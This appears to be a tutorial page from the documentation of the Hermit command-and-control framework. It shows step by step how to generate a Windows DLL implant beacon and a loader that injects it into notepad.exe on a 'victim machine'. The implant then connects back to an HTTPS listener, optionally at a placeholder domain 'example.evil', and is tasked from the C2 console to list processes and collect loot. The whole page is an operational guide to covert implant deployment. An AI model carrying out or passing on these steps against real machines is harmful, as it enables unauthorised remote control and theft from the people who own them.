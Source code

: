 # Simple DLL Injection

In this tutorial, we generate **DLL Implant** and **Loader** which loads the DLL into memory on Windows victim machine. Then make the C2 agent to communicate with our C2 server.   

Assume that you've completed [the Simple Implant Beacon tutorial](./simple-implant-beacon.md).  

## 1. Start C2 Server

In the Hermit project root, start the C2 server:

```sh
./hermit
```

## 2. Start HTTPS Listener

Once the C2 server started, we also need to start HTTPS listener:

```sh title="Hermit C2 Server Console"
Hermit > listener new
```

After starting, the listener folder is generated at `$HOME/.hermit/server/listeners/listener-<name>`.

## 3. Generate DLL Implant

At first, generate an implant DLL with `payload gen` command.

![payload gen](../assets/images/terminal/payload_gen_implant_beacon_win_amd64_dll.png)

In the settings wizard, choose the following options at least:

- What to generate? -> `implant/beacon`
- OS/Arch/Format    -> `windows/amd64/dll`

### Custom Domain Setting (Optional)

If we choose the domain for the listener URL such as `https://example.evil:12345` instead of the ip address such as `https://172.12.34.56:12345`, we need to add the domain to the `C:\Windows\System32\drivers\etc\hosts` on the Windows victim machine for connecting back to our C2 server.

### Check Generated Payload

After that, we can see the generated payload with the `listener payloads <LISTENER-ID>` command:

![listener payloads](../assets/images/terminal/listener_payloads.png)

This command lists all payloads hosted on the listener.  
We can freely delete arbitrary payload by selecting a payload on this menu (of course, we shouldn't delete it now).  

This payload is stored under `$HOME/.hermit/server/listeners/listener-<name>/payloads/`. The DLL loader that we will create later will find this DLL file in this directory and load it automatically, so don't move this payload.

## 4. Generate DLL Loader

Next, generate a DLL loader that loads the DLL implant and inject it on specific process.  
Run `payload gen` command again:

![payload gen](../assets/images/terminal/payload_gen_loader_dll_win_amd64_exe.png)

In the option wizard, choose the following options at least:

- What to generate?         -> `loader/dll`
- OS/Arch/Format            -> `windows/amd64/exe`
- Listener URL              -> (Same URL as when generating the DLL)
- Technique                 -> `dll-injection`
- Target Process to Inject  -> `notepad.exe`

This stager is also generated under `$HOME/.hermit/server/listeners/listener-<name>/payloads/`. 

### Transfer the Loader

**Now we need to transfer the generetad loader to Windows victim machine.**

## 5. Execute Loader

In Windows victime machine, at first, start `notepad.exe` as target process to inject our DLL into:

```ps title="Windows Victim Machine"
PS C:\Users\victim\Desktop> notepad
```

That's because we've specified `notepad.exe` (by default) as target process in the previous **Generate DLL Loader** section.  
By doing so, our loader can inject the DLL into the `notepad` process.

Finally we can execute the loader as below:

```ps title="Windows Victim Machine"
# Replace the filename with our own.
PS C:\Users\victim\Desktop> .\loader.exe
```

## 6. Switch to Agent Mode

After a few seconds (10~30 seconds by default), we can see that the agent connected to our C2 server with `agents` command:

![agents](../assets/images/terminal/agent_list.png)

To enter the agent mode, run `agent use` command on C2 server console:

![agent use](../assets/images/terminal/agent_use.png)

## 7. Send Tasks

In agent mode, we can send tasks and see results. Try `ps ls` task:  

```sh title="Hermit C2 Server Console [Agent Mode]"
Hermit [agent-abcd] > ps ls
```

This task prints all running processes on victim machine. 

After a few seconds, run the `task results` or `loot show` command to see the result:

```sh title="Hermit C2 Server Console [Agent Mode]"
Hermit [agent-abcd] > task results
Hermit [agent-abcd] > loot show
```

If we cannot see the result yet, please repeat executing `loot show` command until the result will be shown.  

Looking at the task result, we can see that our DLL implant is running on the `Notepad.exe` process as below:

![loot ps](../assets/images/terminal/loot_show_ps.png)

That's because the loader injected the DLL into the `notepad.exe` process.

## 8. Stop Implant & Quit Agent Mode

After playing the agent, stop the implant with the `kill` command or close the `Notepad`.
Then run `exit` command to quit the agent mode.

